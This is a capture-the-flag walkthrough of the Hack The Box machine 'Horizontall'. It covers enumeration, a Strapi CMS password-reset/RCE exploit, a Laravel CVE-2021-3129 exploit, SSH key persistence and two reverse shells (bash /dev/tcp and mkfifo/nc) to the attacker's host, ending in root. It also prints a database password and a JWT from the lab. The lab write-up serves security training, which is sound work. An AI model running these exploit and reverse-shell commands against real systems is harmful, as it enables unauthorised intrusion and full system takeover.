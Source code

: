 # Horizontall

first add `horizontall.htb` to `/etc/hosts`

## Enumeration

### nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB

80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: horizontall
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1BA2AE710D927F13D483FD5D1E548C9B
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf
```
                        [Status: 200, Size: 901, Words: 43, Lines: 2]
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 1, Lines: 1]


//api-prod subdomain

admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]


```

hmm...little information

Aaaaand I was stuck for yeeaaars!

until I did a `vhost` enumeration with gobuster 

```
└──╼ $gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u http://horizontall.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/12/06 14:30:04 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200

```

we add `api-prod.horizontall.htb` to our hosts too

We get a welcome page now and there is nothing in source code...we fuzz that again

The `admin` login page uses `strapi cms`

the version can be found in the javascript file


we exploit that
```
└──╼ $python 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM4ODAyMTg1LCJleHAiOjE2NDEzOTQxODV9.FPJVjEL71Mh8aHMWBjeOTxD5tujDziJ8n9N_cD63X_Q
```
And we get a shell on another listenner

```
$> bash -c 'exec bash -i &>/dev/tcp/10.10.15.45/4444 <&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```
For comfort

```
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Get flag
```
strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
the_flag_of_patience_lol
```

## Privilege escalation

no password so we are very limited...we upload and use `linpeas` and found

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1847/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
And these

```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json 
cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
port `8000` is highly suspicious

First lets create ssh keys for persistent access and add pub key to authorized_keys

its possible in `/opt/strapi/.ssh`

now we have ssh access

ssh portforward to our local port 8000
` $ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb`

And access `127.0.0.1:8000` in browser

Oh its laravel `Laravel v8 (PHP v7.4.18) `

there is `CVE-2021-3129_exploit` for that...find it on github

```
└──╼ $./exploit.py http://localhost:8000 Monolog/RCE1 "uname -a"
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Clonage dans 'phpggc'...
remote: Enumerating objects: 2673, done.
remote: Counting objects: 100% (1015/1015), done.
remote: Compressing objects: 100% (576/576), done.
remote: Total 2673 (delta 414), reused 883 (delta 308), pack-reused 1658
Réception d'objets: 100% (2673/2673), 400.37 Kio | 96.00 Kio/s, fait.
Résolution des deltas: 100% (1056/1056), fait.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

Linux horizontall 4.15.0-154-generic #161-Ubuntu SMP Fri Jul 30 13:04:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

[i] Trying to clear logs
[+] Logs cleared
```
it works...we can get root now

```
└──╼ $./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.45 2311 >/tmp/f"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
...

```
And we get it on our listenner
```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 42990
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
boot.sh
pid
restart.sh
root.txt
# cat root.txt
the_flag_of_dedication_kek
```

room finito!



